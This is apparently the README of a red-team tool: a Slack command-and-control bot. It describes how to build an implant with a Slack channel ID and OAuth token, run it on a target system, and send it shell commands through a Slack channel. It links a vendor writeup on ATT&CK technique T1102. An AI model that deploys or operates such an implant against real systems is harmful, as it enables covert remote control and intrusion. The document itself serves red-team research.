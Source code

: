 # Slack C2bot

Slack C2bot that executes commands and returns the output.

Learn more by reading our full writeup:
[Using Slack as Malicious C2 Vector: MITRE ATT&CK – Web Service (T1102)](https://p16.praetorian.com/blog/using-slack-as-malicious-c2-vector-mitre-attack-web-service-t1102)

## Setup

Install Golang and requirements:

```
sudo apt install golang-go
sudo apt install git
```

Install the Slack library:

```
go get "github.com/nlopes/slack"
```

## Usage

```
./build.sh [$CHANID] [$SLACKTOKEN]
```

The build script will generate a UUID for your bot.

If you dont already have a workspace you will need to [create one](https://slack.com/create).

Once you have a workspace, open a channel and note the channel id. This can be found by opening the channel in your browser. The uri is /messages/channelid/.

Save this as $CHANID.

Next, you will need to add a bot to your workspace. This can be done using the following steps:

- [Open https://api.slack.com/](https://api.slack.com/)
- Click Start building. Enter the name of the bot and the workspace.
- On the left menu listing, click: OAuth & Permissions
- Scroll down to Scopes. Add channels:history and chat:write:bot permissions.
- Click save.
- Scroll to the top of the page and click Install App to Workspace.
- Click authorize on the new popup.


Slack OAuth Token. This can be found by opening Your Apps -> Click the bot -> OAuth & Permissions.

Save this as $SLACKTOKEN.

Run the build script.

```
./build.sh $CHANID $SLACKTOKEN
```

Run the Slack c2 bot on the target system.

```
./output/lin_implant.bin
```

Open the Slack channel.

After the bot checks-in, you can task the bot to execute a command using the
following syntax:

```
[UUID] run whoami
```

The bot will post the output. 
